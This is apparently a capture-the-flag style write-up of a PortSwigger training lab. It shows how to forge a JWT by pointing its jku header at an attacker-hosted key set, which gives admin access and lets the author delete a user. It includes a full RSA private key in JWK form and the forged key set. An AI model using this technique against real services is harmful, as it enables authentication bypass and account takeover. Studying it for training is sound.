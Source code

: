 ```yaml
---
author: Nithissh S
pubDatetime: 2024-12-10T02:29:00Z
modDatetime: 2024-12-10T02:29:47.400Z
title: JWT authentication bypass via jku header injection
slug: jwt-portswigger-lab-3
featured: false
draft: false
tags:
  - BSCP
  - JWT Attacks
description:
  This lab uses a JWT-based mechanism for handling sessions. The server supports the jku parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key. To solve the lab, forge a JWT that gives you access to the admin panel at /admin, then delete the user carlos. You can log in to your own account using the following credentials wiener:peter    
---
```


## Objective 

This lab uses a JWT-based mechanism for handling sessions. The server supports the jku parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

To solve the lab, forge a JWT that gives you access to the admin panel at `/admin`, then delete the user carlos.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

We have already generated a set of JWK keys in the last lab and we can utilise the same 

```json
{
    "p": "ziJL_ySicg5OP17XtGGWTKksIj1AdbMFi3pK9xqsCYGMFDJ_zag_wZaZfY15kzo9brD5iZ7J-lZzWiorJvrTZjB3VxwVqXtX0dTj8p44grBu6EJvJJ77v4qgnUD_ec4NPJB4La5FRkc1zSl1mXxyiaRSnKVPp-PIxZWK5ritHSc",
    "kty": "RSA",
    "q": "vNhU6Qftu1X9jCToARsKThnkk8UE55Lp4epzhNo8Qo8pugLgwJ3n7Ufrtq-rTnHvpNpFGsGbEgPP_Ush4hK4XGqIMBpHZfjnjbValv_1EGLqso6wmMxFGkZ1mTvzuoaXU_HL7CU2ufKmEZqjwZ7ny3Zb7Kdr2_rPL8bdfWHaToE",
    "d": "EiQY52cfkUMmJYA9hgxho2zMleLogX2XQis0j-snIwywDwrwcnr_Txs28WRLs2ln2MLon2w5_QKt_bDGt-284LR5oESe_oZbNe2v2ad0_F5cItI2z6lji8ubd1S__9PL5x-fgK7PGO2UcTVRANbLlI79UOUYQHyp-ITgCAmQrkfeacC6ISvp4EGjZm-qYq-DCMjnymWXm4XyHd_uGfWLaFk2ls_JE0YD21Ni0Q-CwcMXbKqidGoCBSLO6ubjSLS6vB_rkgwc-e9DOwQKcaee9gSMUUrRZyNgT2_MnU5vFJeORvvfIcPPjtPpgcBcaBUzJWlNCdsFRtC47UgsmyYgAQ",
    "e": "AQAB",
    "kid": "jwt-lab",
    "qi": "MkyvhFVHUPMOj7pZg8eHdr-oqKgz6MDQf-PrI21YkH9f1ItiF5i5xgot-DOazfKQVD_mSJZqWLGTE3P_LnBH5aDegcxvEDfiIW-0P1eIMyhFOnQXBWxE_NXA_MQhdXDkA0mC-kWr2gwWBTDt92TTq5LNouo5aOlg-_Ezp1LxzDk",
    "dp": "vDl_EZyfJOzBMIZnCxQtDRVQ8nbh3Fe7EXB68YaOXyPHCE5QezdN-HSO9aFwySpeHCxHwA2ZuxijvkpRGwfgbyiEYKuJcDfrqfPurYUibtuyeiznlhYCJRXtsYo_fjbTyWDWDEhcg17U1uErvBpx8BN3SAh_YvvRQfJaYnFxyfM",
    "dq": "DVvQRdvFuWbP1MYXk1xyUiwKu1lIi4kc-lo3acJ2WM7_yKTDeVyyN1rLFdU_bQEqTqMSGF5xtciHQge6kd95IzB2CdESE-iTmLanfd8FWu9kYtUtMOHiUYWCdCCFkUBMHCgSoNXRFT5Q-RXTV7MB-qaYwhjlzF3loh-TM3dklgE",
    "n": "mA9hHmK3dL0DE8RgmUuwihO7oo8jxHpZZmkrfx4Xg_eLj2C5t2GsgsoQem5Eh9nGy0QmJQEuZ0TQKjgGOOYjZdm_BS5tEaM-ZOAO6Ko29RuxzobzfQm1mt1QEwqK-gMtldsyTU2zaxxgs9V2xZTWdjfERkcyeYZ0S5Mjsm55RZytFX4b7Nku1odJgkcR8LpJe9wq8OW8Tjy1dswl11cvW5nUq6HcmyrimiFCAVLuz6RL8JgyJAiIe5mQfE0mjRwc6hpStvbfdKX1tGRvb57tGsyVmEFbK1KOpUJwMbL_sWlJNs-m2Hhgh9rrsvWsD1s5VkmCPlPvJjYo_A0JaFOSpw"
}
```

Now from the above keys, we can make an array for exploit server kind of supplying it through a remote server 

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "jwt-lab",
            "n": "mA9hHmK3dL0DE8RgmUuwihO7oo8jxHpZZmkrfx4Xg_eLj2C5t2GsgsoQem5Eh9nGy0QmJQEuZ0TQKjgGOOYjZdm_BS5tEaM-ZOAO6Ko29RuxzobzfQm1mt1QEwqK-gMtldsyTU2zaxxgs9V2xZTWdjfERkcyeYZ0S5Mjsm55RZytFX4b7Nku1odJgkcR8LpJe9wq8OW8Tjy1dswl11cvW5nUq6HcmyrimiFCAVLuz6RL8JgyJAiIe5mQfE0mjRwc6hpStvbfdKX1tGRvb57tGsyVmEFbK1KOpUJwMbL_sWlJNs-m2Hhgh9rrsvWsD1s5VkmCPlPvJjYo_A0JaFOSpw"
        }
    ]
}
```

Now through the repeater in the `JWT tab` we can make few changes like:

- Change `kid` value to the same as one you updated in the exploit server which is `jwt-lab`
- add `jku` header with the value as exploit server where the jwk keys set is hosted 

![](../../assets/images/bscp/jwt/jwt-12.png)

Once after that, we can sign the keys using our RSA keys and send the request.. now, we can able to access the admin panel now through `/admin`

![](../../assets/images/bscp/jwt/jwt-13.png)

And we can just delete the user called `carlos` and that solves the lab 

![](../../assets/images/bscp/jwt/jwt-14.png)